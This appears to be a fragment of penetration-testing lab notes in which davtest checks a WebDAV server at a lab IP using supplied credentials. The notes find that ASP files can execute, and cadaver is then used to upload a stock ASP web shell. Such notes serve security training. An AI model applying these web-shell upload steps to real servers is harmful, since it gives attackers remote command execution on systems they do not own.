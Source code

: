davtest -url http://10.3.27.91/webdav/ -auth bob:password_123321

![6807da871af7a1ca80b9877f5a12ea77.png](resources/6807da871af7a1ca80b9877f5a12ea77.png)

- Reveals that \`.asp\` files can be executed.  
        - \`cadaver http://{target1}\`  
            - Input username & password.  
        - \`cd /webdav/\`  
        - `put /usr/share/webshells/asp/webshell.asp`
    
- ![ca670c5e805fed3187b367c8bc11f087.png](resources/ca670c5e805fed3187b367c8bc11f087.png)
    